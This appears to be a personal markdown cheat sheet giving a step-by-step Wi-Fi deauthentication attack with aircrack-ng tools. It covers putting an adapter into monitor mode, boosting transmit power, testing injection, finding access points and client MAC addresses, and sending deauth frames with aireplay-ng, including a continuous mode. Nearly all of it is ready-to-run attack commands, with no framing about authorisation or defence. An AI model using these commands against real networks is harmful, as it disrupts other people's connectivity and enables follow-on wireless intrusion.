 # Deauthentication Attack
### Set router to max power
```
sudo iwconfig wlan1mon txpower 30
```
---

### Check / kill:
If things are weird
```
sudo airmon-ng check kill
```

---

### wlan1 Monitor mode:
```
sudo airmon-ng start wlan1
```
Interface now is appended `mon` e.g `wlan1mon`

---

### Test for packet injection
Once it's in monitor mode, run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

---

### Gather MAC addresses
Use this command to see live network traffic, enabling you to see all the devices on the network and their MAC addresses. if you run this live you'll inevitably see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients/`STATIONS` and the `Probes` should tell you what they're connected to.

---

### Monitor traffic
Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```

---

### Deauth
The actual deauth - where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

---


---

## -- NOTES
You have to be on the same channel as the AP you're deauthing, change it with:
```
sudo iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
aireplay-ng
```
